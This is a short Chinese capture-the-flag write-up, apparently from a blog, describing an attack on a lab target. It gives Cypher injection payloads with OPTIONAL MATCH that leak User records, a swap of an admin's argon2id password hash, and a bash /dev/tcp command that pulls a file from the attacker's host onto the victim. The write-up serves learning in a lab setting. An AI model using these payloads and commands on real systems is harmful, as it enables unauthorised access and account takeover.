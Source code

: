 ，分号拼接执行多段语句不就可以了  
  
好像没有，gpt也问题不出东西了  
  
wp   
给了一个语法  
   
  
https://neo4j.com/docs/cypher-manual/current/clauses/optional-match/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YqzMOdDibqZsNW6XC00tekRWUSicMQG053GYGKztM2KvE6iaYS6nnphUN0yecViccyLErHeqtPZqOKb5aSqwhxctTQ/640?wx_fmt=png&from=appmsg "")  
  
  
MATCH的结构与靶机中所用相似，所以可以直接**尝试构造OPTIONAL MATCH**  
  
而且呢源码部分也给了些信息  

```
use crate::db::models::product::Product;use crate::db::models::user::User;...
```


```
#500 都失败了f6e2f997-5490-408d-a1e6-2e8744c806d7&#34;}) OPTIONAL MATCH(xixi:Product) return xixi.id //f6e2f997-5490-408d-a1e6-2e8744c806d7&#34;}) OPTIONAL MATCH(xixi:Product) return result {.*,xixi.id} //f6e2f997-5490-408d-a1e6-2e8744c806d7&#34;}) OPTIONAL MATCH(xixi:User) return xixi.username //f6e2f997-5490-408d-a1e6-2e8744c806d7&#34;}) OPTIONAL MATCH(xixi:User) return result {xixi.username} //#wp 给的f6e2f997-5490-408d-a1e6-2e8744c806d7&#34;}) optional match (xixi:User) return result { .*, description: xixi.username }//
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YqzMOdDibqZsNW6XC00tekRWUSicMQG053NVmdQw652X4X8fN0HcibIicoJGWicF5DUpJMiaSia81mvibt6jQPUjkuxiaRw/640?wx_fmt=png&from=appmsg "")  
  
  
嘶，为什么这样构造呢。看样子是去符合第一个MATCH的键值对？  
  
  
2.密码替换，原密码格式如下：  

```
$argon2id$v=19$m=19456,t=2,p=1$T+K9waOashQqEOcDljfe5Q$X5Yul0HakDZrbkEDxnfn2KYJv/BdaFsXn7xNwS1ab8E
```

  
构造同参数的密码替换即可，没办法，我得到的原密码m=4096，所以导致登录是500，因为参数就不对  
  
admin登录，第一次可能是404，再登录即可，否则就改密码重新操作  
  
  
3.文件传输  

```
#kali发文件nc -lvnp 3636 < ftp.py#victim 接收文件bash -c 'cat < /dev/tcp/10.10.xxxx/3636 > /tmp/ftp.py' &
```

  
  
4.邮箱ip获取  

```
getent hosts mail #linux原生命令，作用类似nslookup，解析到ip
```

  